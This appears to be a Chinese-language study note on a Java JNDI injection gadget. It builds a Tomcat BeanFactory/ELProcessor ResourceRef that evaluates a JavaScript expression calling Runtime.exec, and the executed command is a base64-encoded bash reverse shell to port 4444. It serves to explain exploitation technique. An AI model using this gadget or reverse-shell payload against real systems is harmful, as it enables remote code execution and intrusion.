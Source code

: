 

```java
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
```

* `org.apache.naming.ResourceRef`   表示的是资源引用的地址

```txt
ResourceRef[
className=javax.el.ELProcessor,			 //javax.el.ELProcessor类, 调用eval方法进行el注入(表达式注入) 实现RCE.
factoryClassLocation=null,
factoryClassName=org.apache.naming.factory.BeanFactory, //org.apache.naming.factory.BeanFactory类 
{type=scope,content=},
{type=auth,content=},
{type=singleton,content=true}
]
```



```java
ref.add(new StringRefAddr("forceString", "x=eval"));
```

* 资源引用地址数据增加
* 创建对象，然后初始化数据
* `forceString`
  * 给属性强制指定一个setter方法
  * `x`的setter方法设置为 ELProcessor.eval() 方法。



```java
ref.add(new StringRefAddr("x", String.format(
                "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(" +
                        "\"java.lang.Runtime.getRuntime().exec('%s')\"" +
                        ")",
                commandGenerator.getBase64CommandTpl()
        )));   //格式化，拼接，从而执行commandGenerator.getBase64CommandTpl() 的命令（这里我们设置的是反弹shell的命令，当然可以自行更改）
```

添加内容：（即，执行反弹shell）

```txt
{type=x,content="".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}')")}]
```





`commandGenerator.getBase64CommandTpl()`看看
为什么要base64

```java
public String getBase64CommandTpl(){
return "bash -c {echo," + 
Base64.getEncoder().encodeToString(reverseShellCommand.getBytes()) + 
"}|{base64,-d}|{bash,-i}";}

// bash -c 执行命令
//使用 Base64 编码方案编码指定的字节数组，转换为字符串并返回该字符串。 
//将字符串 base64解码 bash -i 交互命令

```
